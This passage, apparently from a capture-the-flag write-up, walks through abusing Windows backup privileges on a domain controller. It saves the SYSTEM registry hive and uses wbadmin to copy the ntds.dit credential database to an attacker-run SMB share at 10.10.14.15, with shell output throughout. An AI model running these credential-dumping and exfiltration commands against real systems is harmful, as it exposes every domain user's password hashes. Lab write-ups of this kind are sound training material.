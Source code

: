 Seems like we have been able to copy one file of the desktop: `notes.txt.`

Let us have a look at it...

```powershell
*Evil-WinRM* PS C:\tmp> type notes.txt
Mates,

After the domain compromise and computer forensic last week, auditors advised us to:
- change every passwords -- Done.
- change krbtgt password twice -- Done.
- disable auditors account (audit2020) -- KO.
- use nominative domain admin accounts instead of this one -- KO.

We will probably have to backup & restore things later.
- Mike.

PS: Because the audit report is sensitive, I have encrypted it on the desktop (root.txt)
```

The note does not contain interesting information, but instead explains why we have the backup and restore privileges.

#### Backup of system.hive and ntds.dit

With the backup and restore privileges, we can now backup the system hive and ntds.dit to get access to the password hashes of all domain-users.

Let us backup the system hive first.

```powershell
*Evil-WinRM* PS C:\tmp> reg save HKLM\SYSTEM c:\tmp\system.hive
The operation completed successfully.
```

We can now copy the system hive to our machine.

Next let us backup the ntds.dit file. For this we need to setup a smb-server and then use `wbadmin` to backup the file. Then we can restore it without the file-permissions to get read-access to it.

```bash
root@darkness:~# docker run -it -p 139:139 -p 445:445 -d dperson/samba -p -s "share;/mnt/smb;yes;no;yes"
```

Now let us start the backup-process.

```powershell
*Evil-WinRM* PS C:\tmp> wbadmin start backup -backupTarget:\\10.10.14.15\share\ -include:C:\windows\ntds\ntds.dit -quiet
wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.


Note: The backed up data cannot be securely protected at this destination.
Backups stored on a remote shared folder might be accessible by other
people on the network. You should only save your backups to a location
where you trust the other users who have access to the location or on a
network that has additional security precautions in place.

Retrieving volume information...
This will back up (C:) (Selected Files) to \\10.10.14.15\share\.
The backup operation to \\10.10.14.15\share\ is starting.
Creating a shadow copy of the volumes specified for backup...
Please wait while files to backup for volume (C:) are identified.
This might take several minutes.
Creating a shadow copy of the volumes specified for backup...
Please wait while files to backup for volume (C:) are identified.
This might take several minutes.
Please wait while files to backup for volume (C:) are identified.
```